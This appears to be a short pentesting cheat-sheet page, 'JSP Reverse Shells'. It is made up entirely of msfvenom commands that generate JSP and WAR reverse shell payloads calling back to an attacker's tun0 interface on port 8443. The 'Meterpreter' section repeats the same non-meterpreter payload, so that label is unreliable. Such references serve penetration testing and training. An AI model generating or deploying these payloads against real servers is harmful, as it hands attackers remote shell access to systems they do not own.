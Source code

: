 ```yaml
---
title: JSP Reverse Shells
layout: default
nav_order: 3
parent: Reverse Shells

---
```


# JSP Reverse Shell
{: .no_toc }
## Table of Contents
{: .no_toc .text-delta }
1. TOC
{:toc}

### Non-meterpreter
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=8443 -f raw > shell.jsp
```

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=8443 -f war > shell.war
```


### Meterpreter
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=8443 -f raw > example.jsp
```

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=8443 -f war > example.war
```
